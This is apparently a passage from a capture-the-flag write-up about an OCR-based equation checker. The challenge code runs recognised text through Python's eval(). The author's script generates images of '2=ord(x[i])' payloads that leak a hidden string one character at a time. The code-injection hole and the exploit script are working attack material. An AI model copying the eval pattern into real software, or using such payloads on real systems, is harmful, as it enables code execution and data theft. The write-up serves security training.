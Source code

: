```python
    print("We can not understand your equation !")
    sys.exit()
if len(formated_text) > 15:
    print("We can not solve complex equations for now !")
    sys.exit()

if "==" in formated_text:
    parts = formated_text.split("==",maxsplit=2)
    pa_1 = int(eval(parts[0]))
    pa_2 = int(eval(parts[1]))
    if pa_1 == pa_2:
        print("Wow, it works !")
    else:
        print("Sorry but it seems that %d is not equal to %d"%(pa_1,pa_2))
else:
    print("Please import a valid equation !")
```

### <a name="payloads-generator"></a>Payloads Images Generation Script

```python
#!/usr/bin/python3
# -*- coding: utf-8 -*-

from PIL import Image, ImageDraw, ImageFont

# Create images payloads
for i in range(0,20):
    payload = '2=ord(x['+str(i)+'])'
    img = Image.new('RGB', (230, 60), color = (255, 255, 255))
    fnt = ImageFont.truetype('/Library/Fonts/Arial.ttf', 40)
    d = ImageDraw.Draw(img)
    d.text((10,10), payload, font=fnt, fill=(0, 0, 0))
    img.save('payload_'+str(i)+'.png')
```

